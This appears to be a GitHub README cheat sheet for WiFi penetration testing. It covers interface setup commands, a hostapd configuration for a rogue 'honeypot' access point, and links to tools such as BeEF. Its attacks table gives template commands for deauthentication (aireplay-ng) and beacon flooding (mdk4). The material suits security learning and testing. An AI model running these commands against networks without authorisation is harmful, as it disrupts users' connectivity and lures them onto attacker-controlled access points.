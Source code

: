 # W! hack Cheetsheat
<br />

## Set Up environment
<br />

|Purpose|Command|
|----|----|
|lsusb|List all usb devices attached to machine|
|ethtool -i {interface} | Get detailed information about interface|
|iwconfig | View all WiFi interfaces on system | 
|iw phy| View information about an interfaces and its capabilities|
|iw reg get|Check the regulatory domain|
|iw reg set {region}|Set reg domain |
|iw dev {interface} set channel {number}|Setting channel |
|iwconfig {interface} essid {ssid} | Connect to specific SSID|

<br />
<br />

<h2>
<b>Configure hostapd service to deploy Honey Pot</b></h2>


```
## To configure hostapd for WiFi Honeypot firstly we need to install it

    sudo apt install hostapd

## Therefore we need to create configuration file

    touch /etc/hostapd/hostapd.conf

## hostapd.conf content is ...

    interface={interface}
    driver=nl80211
    ssid={ssid}
    bssid={mac_addr}
    channel={channel}

## After that just start hostapd service

    systemctl start hostapd.service
```
<br />

<h2><b>Toolkits/Plugins</b></h2>

|Name|Description|
|----------|------------|
|<a href="https://github.com/pentesteracademy/patoolkit"> Patoolkit </a>|Wireshark plugin, which implements the automation WiFi packets analysis|
|<a href="https://github.com/nodogsplash/nodogsplash">NoDogSplash</a>|Captive Portal|
|<a href="https://beefproject.com/">BeEF</a>|The Browser Exploitation Framework|

<br />

## Attacks

|Type of attack|Command|
|---------------|-------------|
|Deathentication Attack|aireplay-ng -0 {count} -a {bssid} {interface} -c {sta_mac}|
|WiFi HoneyPot|hostapd {config_file}|
|Beacon flood|mdk4 {interface} b|


<br />
